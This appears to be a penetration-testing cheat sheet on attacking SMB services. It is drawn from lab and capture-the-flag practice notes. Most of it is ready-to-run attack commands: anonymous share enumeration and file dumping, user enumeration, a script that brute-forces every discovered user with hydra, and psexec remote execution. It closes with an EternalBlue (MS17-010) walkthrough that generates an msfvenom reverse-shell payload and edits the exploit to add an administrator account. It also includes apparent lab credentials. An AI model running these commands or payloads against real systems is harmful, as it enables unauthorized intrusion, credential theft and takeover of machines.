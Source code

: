# (139,445) SMB

<details>

<summary>List shares</summary>

```bash
# Anonymous/Null Session
smbclient -L //10.130.40.80 -N
nxc smb 10.10.11.174 -u '' -p '' --shares

# Guest Session
smbclient -L //10.10.11.174 -U=milesdyson
nxc smb 10.10.11.174 -u '' -p '' --shares
impacket-smbclient a@10.10.11.174
```

#### List all files in a share recursively

```bash
smbclient //10.11.1.231/home -N -c 'recurse;ls'
```

```bash
smbmap -H <ip> -R
```

</details>

<details>

<summary>SMB Version </summary>

```bash
smb_version 10.11.1.115
```

* Used this [tool](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but changed `tap0` to `tun0`

### SMB1

* Susceptible to known attacks (Eternal blue , wanna cry)
* Disabled by default in newer Windows version
* Versions:&#x20;
  * Windows 2000, XP and Windows 2003

### SMB2

* Reduced "chattiness" of SMB1
* Guest access disabled by default
* Versions:&#x20;
  * SMB2: Windows Vista SP1 and Windows 2008
  * SMB2.1: Windows 7 and Windows 2008 R2

### SMB3

* Guest access disabled
* Uses encryption (most secure)
* Versions:
  * Windows 8 and Windows 2012.

</details>

<details>

<summary>SMB Username Enumeration</summary>

```bash
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```

</details>

<details>

<summary>Connect to shares</summary>

```bash
smbclient //10.10.215.173/milesdyson -U=milesdyson

impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
shares --> to see available SMB shares
use <share_name> --> switch to this SMB share
get <filename> --> download the file


# List shares & view permissions
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --shares
# Dump all files from all readable shares
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k -M spider_plus
# Get Specific File
nxc smb DC1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --get-file 'Network Security Changes.pdf' /tmp/Network_Security_Changes.pdf --share "Public" 
```

Nxc Kerberos Authentication

```bash
rdate -n 10.10.11.168
nxc smb dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k
```

Spaces in share name

```bash
smbclient "//10.11.1.136/Bob Share/" -N
```

</details>

<details>

<summary>Increase Timeout For Large Files</summary>

```bash
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
timeout 120
iosize 16384
```

</details>

<details>

<summary>Copy all files from SMB share</summary>

```bash
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
```

</details>

<details>

<summary>Enum4linux</summary>

```
enum4linux -a 10.11.67.208
```

</details>

<details>

<summary>Nmap</summary>

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 445 -script vuln 10.10.10.4
</strong></code></pre>

```bash
nmap --script=smb-enum-shares <ip>
```

```bash
nmap --script smb-* -p 139,445, 172.21.0.0
```

</details>

<details>

<summary>Mounting SMB Shares</summary>

Use `cp` to copy large files from SMB shares.

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

Specifying credentials:

```bash
mount -t cifs -o username=V.Ventz //192.168.231.175/"Password Audit" /home/kali/Documents/pg_practice/192.168.231.175/share
```

</details>

<details>

<summary>SMB to Reverse shell</summary>

<pre class="language-bash"><code class="lang-bash"><strong>/usr/share/doc/python3-impacket/examples/psexec.py username:password@hostIP
</strong></code></pre>

PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials

</details>

<details>

<summary>HAIL MARY SCRIPT</summary>

```bash
smb_allenum 10.10.10.10
```

```bash
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```

</details>

<details>

<summary>MS17-010 (Eternal Blue)</summary>

CVE-2017-0143

1. `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell.exe
    ```
3. Edit the following section inside the `zzz_exploit.py` file.

<img src="../.gitbook/assets/image (24).png" alt="Before edit" data-size="original">

<img src="../.gitbook/assets/image (296).png" alt="After edit" data-size="original">

* If received `Not found accessible named pipe` --> use SMB Guest authentication creds instead (guest:)

### Create a user with admin rights (windows)

Sometimes it may not work, then need to add user and place user in administrator group.

```python
 def smb_pwn(conn, arch):
     smbConn = conn.get_smbconnection()
     service_exec(conn, r'cmd /c net user bill pass /add')
     service_exec(conn, r'cmd /c net localgroup administrators bill /add')
```

4. Setup nc listener and run `python2.7 zzz_exploit.py 10.10.10.4`

</details>
